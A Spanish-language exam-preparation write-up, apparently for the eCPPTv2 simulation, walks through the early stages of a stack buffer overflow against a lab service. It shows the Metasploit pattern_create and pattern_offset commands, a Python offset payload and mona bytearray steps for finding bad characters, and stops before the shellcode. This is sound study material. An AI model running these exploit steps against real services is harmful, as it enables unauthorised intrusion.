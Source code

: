 ![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 135.png)

### Detectar Buffer Overflow

Desde la máquina atacante, se conectará a este servicio y se enviará una gran cadena de caracteres.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 136.png)

### Control del EIP

El programa se detuvo y se sobrescribieron los registros, ahora la tarea es tomar control del EIP.

Primero se creará una cadena especial de 1000 caracteres con el framework de metaploit.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```

Al enviar la cadena, se copiará el patrón que se encuentra en el EIP y se usará para encontrar el offset y con este offset se creará una cadena con las “A” necesarias antes de sobrescribir el EIP.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35724134
python3 -c 'print("A"*524 + "B"*4 + "C"*200)'
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 137.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 138.png)

Ahora se enviará esta nueva cadena para confirmar el offset y si todo va como lo esperado, el EIP debe valer “42424242”.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 139.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 140.png)

Además, se puede ver cómo se sobrescribe el stack (ESP) con “C”. El objetivo es hacer que el EIP apunte al ESP ya que es donde se insertará el shellcode.

### Creación de Bytearrays

Para que el shellcode funcione, es necesario detectar y eliminar los badchars, esto se hará creando bytearrays.

Primero se creará el directorio de trabajo.

```bash
# Crear directorio en donde se ingresará el archivo del bytearray
!mona config -set workingfolder C:\Users\attacker\Desktop\Analysis
```

Ahora se creará un archivo con un bytearray excluyendo el “NULL Byte” (\x00).

```bash
!mona bytearray -cpb '\x00'
```
